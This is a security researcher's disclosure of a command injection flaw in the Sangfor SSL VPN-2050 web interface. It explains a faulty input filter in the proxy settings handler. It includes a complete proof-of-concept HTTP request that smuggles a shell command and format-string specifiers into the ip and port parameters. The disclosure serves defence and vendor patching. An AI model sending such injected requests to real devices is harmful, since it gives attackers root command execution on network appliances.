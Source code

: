 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.
Recently, I found that the Sangfor SSL VPN-2050 has a command injection vulnerability. The attacker can obtain the root shell and execute arbitrary commands. The tested device firmware version is M7.6.3. The vulnerability details are as follows:
This vulnerability is due to a logic vulnerability in the filter function, resulting in command execution of the ip and port parameters.
The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code:
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)

Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)

In this while loop, v2 does not play any role, the range of filtering characters is also problematic, resulting in as long as the number and '/' will fall into the while loop, always write data to a1, but if it is other characters For example, if the letter, '%', etc., it will return 0, but this just meets the judgment of if, and can continue the processing. This logic, just enough to constantly cover the address on the heap, leaks the data on the heap through formatted strings such as %s and %x.
The last parameter is spliced, and the command is executed by the call_DoShellProxy function to call popen.

The payload of the vulnerability recurrence is as follows:
Command injection through the ip parameter on port 1000:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=119a080699cc70839b6c8b434bcca478&enabled=1&ip=10.10.10.1';ping%2010.92.2.110;echo'&port=1111111%s%x&auth=2&name=aaaaaaa%s&passwd=1230000000000000000000000000000000000000 HTTP/1.1
Host: 10.92.2.17:1000
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: http://10.92.2.17:1000/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; sinfor_session_id=W38F984ADB3BE348FEF4EE72B628B3C6; x-anti-csrf-gcs=A160FB2300484911
Connection: close

Under the terminal you can see that the command is executed:
![5.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561626103122469.png)
You can also see that the command is executed by capturing the packet:
![4.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624621269779.png)
